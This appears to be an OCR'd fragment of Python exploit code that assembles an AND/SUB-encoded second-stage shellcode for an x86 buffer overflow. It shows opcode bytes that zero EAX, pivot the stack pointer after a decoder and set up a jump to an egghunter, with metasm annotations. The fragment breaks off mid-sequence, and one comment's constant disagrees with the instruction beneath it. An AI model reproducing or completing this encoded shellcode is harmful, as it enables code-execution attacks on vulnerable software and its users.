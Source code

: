 ```python
"""
mov eax, 0x0019F868 # after decoder
push eax
pop esp
"""

# and-sub encode 0x0019F868 into eax # encoded new esp
# push eax # push new esp
# pop esp # align esp after decoder

# set eax to 0
# function and(a, b) { return a & b }
# '0x' + and(0x554e4d4a, 0x2a313235).toString(16).padStart(8, '0') = 0x00000000
#
# metasm > and eax, 0x554e4d4a
stage2 = "\x25\x4a\x4d\x4e\x55"
# metasm > and eax, 0x2a313235
stage2 += "\x25\x35\x32\x31\x2a"

# set eax to 0x0019f868 + 4
# '0x' + sub(sub(sub(0x0, 0x554b7035), 0x55457020), 0x55552743).toString(16).padStart(8, '0') = '0x0019f868'
#
# metasm > sub eax, 0x554b7031
stage2 += "\x2d\x31\x70\x4b\x55"
# metasm > sub eax, 0x55457020
stage2 += "\x2d\x20\x70\x45\x55"
# metasm > sub eax, 0x55552743
stage2 += "\x2d\x43\x27\x55\x55"
# metasm > push eax
stage2 += "\x50"
# metasm > pop esp
stage2 += "\x5c"

# encoded shellcode
# set eax to egghunter addr
# jmp eax
#
# metasm > jmp $-99; nop; nop
# "\xeb\x9b\x90\x90" # 0x90909beb
"""
mov eax, 0x0019f774
mov edx, 0x90909beb # jmp $-99; nop; nop
push edx
--- OR ---
mov eax, 0x0019f774 # addr of egghunter
jmp eax
"""

# and-sub encode 0x9090e0ff into eax # encoded jmp eax
# push eax # write jmp eax after decoder
# and-sub encode 0x0019f774 into eax # egghunter addr in eax
# 
# metasm > jmp eax; nop; nop
# "\xff\xe0\x90\x90"

# set eax to 0
# function and(a, b) { return a & b }
# '0x' + and(0x554e4d4a, 0x2a313235).toString(16).padStart(8, '0') = 0x00000000
#
# metasm > and eax, 0x554e4d4a
stage2 += "\x25\x4a\x4d\x4e\x55"
# metasm > and eax, 0x2a313235
```